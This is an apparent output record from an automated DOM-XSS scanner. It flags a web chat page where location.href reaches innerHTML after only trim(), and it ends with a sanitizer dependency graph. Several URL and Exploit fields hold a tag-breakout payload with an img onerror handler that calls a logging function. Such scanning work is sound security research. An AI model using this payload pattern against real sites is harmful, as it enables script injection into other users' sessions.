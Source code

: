// Finding: b964de52-d876-4abe-a4bf-c5670ebdad13
// Finding.url: https://webchat.example399.com/view/moor_chat.html?v=20210420&clientId=&urlTitle=向日葵-简单好用的远程控制软件|远程控制桌面连接|远程控制电脑|远程开机唤醒-贝锐向日葵官网&fromUrl=https://sunlogin.oray.com/hardware/kongkong2&serviceStates=1&accessId=f6abfad0-fbe5-11ea-9b98-4947dea401c2&styleColor=3</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('7b035e66911f4689990585b315ac9e87')><!--/*&peers=[]&sessionLastToPeer=&otherParams=&seoSource=站内&seoKeywords=&xstKeywords=&companyName=贝锐科技&seoUrl=&language=zh-CN&href=https://sunlogin.oray.com/hardware/kongkong2&priority=false&showAnnexUrl=false&unionAccessId=undefined
// Finding.parentloc: https://webchat.example399.com/view/moor_chat.html?v=20210420&clientId=&urlTitle=向日葵-简单好用的远程控制软件|远程控制桌面连接|远程控制电脑|远程开机唤醒-贝锐向日葵官网&fromUrl=https://sunlogin.oray.com/hardware/kongkong2&serviceStates=1&accessId=f6abfad0-fbe5-11ea-9b98-4947dea401c2&styleColor=3</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('7b035e66911f4689990585b315ac9e87')><!--/*&peers=[]&sessionLastToPeer=&otherParams=&seoSource=站内&seoKeywords=&xstKeywords=&companyName=贝锐科技&seoUrl=&language=zh-CN&href=https://sunlogin.oray.com/hardware/kongkong2&priority=false&showAnnexUrl=false&unionAccessId=undefined
// Finding.domain: webchat.example399.com
// Finding.base_domain: example399.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 2
// Sanitizer.name: String.prototype.trim
// Sanitizer.location: https://webchat.example399.com/view/moor_chat.html?v=20210420&clientId=&urlTitle=￥ﾐﾑ￦ﾗﾥ￨ﾑﾵ-￧ﾮﾀ￥ﾍﾕ￥ﾥﾽ￧ﾔﾨ￧ﾚﾄ￨﾿ﾜ￧ﾨﾋ￦ﾎﾧ￥ﾈﾶ￨ﾽﾯ￤ﾻﾶ|￨﾿ﾜ￧ﾨﾋ￦ﾎﾧ￥ﾈﾶ￦ﾡﾌ￩ﾝﾢ￨﾿ﾞ￦ﾎﾥ|￨﾿ﾜ￧ﾨﾋ￦ﾎﾧ￥ﾈﾶ￧ﾔﾵ￨ﾄﾑ|￨﾿ﾜ￧ﾨﾋ￥ﾼﾀ￦ﾜﾺ￥ﾔﾤ￩ﾆﾒ-￨ﾴﾝ￩ﾔﾐ￥ﾐﾑ￦ﾗﾥ￨ﾑﾵ￥ﾮﾘ￧ﾽﾑ&fromUrl=https://sunlogin.oray.com/hardware/kongkong2&serviceStates=1&accessId=f6abfad0-fbe5-11ea-9b98-4947dea401c2&styleColor=3</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('7b035e66911f4689990585b315ac9e87')><!--/*&peers=[]&sessionLastToPeer=&otherParams=&seoSource=￧ﾫﾙ￥ﾆﾅ&seoKeywords=&xstKeywords=&companyName=￨ﾴﾝ￩ﾔﾐ￧ﾧﾑ￦ﾊﾀ&seoUrl=&language=zh-CN&href=https://sunlogin.oray.com/hardware/kongkong2&priority=false&showAnnexUrl=false&unionAccessId=undefined - String.prototype.trim:5:3207
// Finding.begin: 1845
// Finding.end: 1908
// Finding.original_uuid: a5b63621-e0ac-4a65-ab94-cb84dea51899
// Finding.TwentyFiveMillionFlowsId: 1203156032
// Finding.script: https://fs-im-kefu.example400.com/im/f5f042b0-6cdc-11ea-b9e9-11f72acca0b4/2020-06-05%2011:44:42/1591328682791/m7AllQuote.js
// Finding.line: 496
// Exploit.uuid: 7b035e66-911f-4689-9905-85b315ac9e87
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: text
// Exploit.content: 3
// Exploit.quote_type: None
// Exploit.tag: None
// Exploit.break_out: 3</iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: 3</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 249
// Exploit.end_taint_url: 255
// Exploit.replace_begin_url: 249
// Exploit.replace_end_url: 255
// Exploit.replace_begin_param: 114
// Exploit.replace_end_param: 120
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 1689122938
// DepGraph.sanitizer_hash: 1378647614

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="substr"];
n2 [shape=box, label="Var: x"];
n3 [shape=box, label="Lit: 46"];
n4 [shape=ellipse, label="preg_replace"];
n5 [shape=box, label="RegExp: /^\s*/"];
n6 [shape=box, label="Lit: "];
n7 [shape=box, label="Var: x"];
n8 [shape=ellipse, label="preg_replace"];
n9 [shape=box, label="RegExp: /\s*$/"];
n10 [shape=box, label="Lit: "];
n11 [shape=box, label="Var: x"];
n12 [shape=box, label="Var: x"];
n13 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n1 -> n3;
n7 -> n1;
n4 -> n5;
n4 -> n6;
n4 -> n7;
n11 -> n4;
n8 -> n9;
n8 -> n10;
n8 -> n11;
n12 -> n8;
n13 -> n12;
}